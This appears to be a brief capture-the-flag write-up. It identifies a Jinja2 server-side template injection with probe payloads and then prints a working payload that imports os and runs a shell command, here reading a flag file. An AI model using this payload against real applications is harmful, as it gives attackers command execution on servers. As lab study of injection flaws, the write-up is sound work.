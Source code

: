<img width="1085" height="276" alt="Screenshot 2025-07-27 231022" src="https://github.com/user-attachments/assets/e9d494a5-c0e8-413c-9ed4-0dd2b6f46e46" />
I have to identify what template does this website use with [PortSwigger resource](https://portswigger.net/web-security/server-side-template-injection) ,specifically in the  `identify` section

These are payloads that I tried with the input prompt which worked
- `${{7*7}}`
- `${{7*'7'}}`

Then I concluded that the server template is `jinja2` and found this page with useful payloads
[Server Side Template Injection with jinja2](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)

Payloads:
-> {{request.application.__globals__.__builtins__.__import__('os').popen('`command to inject`').read()}}

Complete payload
=> {{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
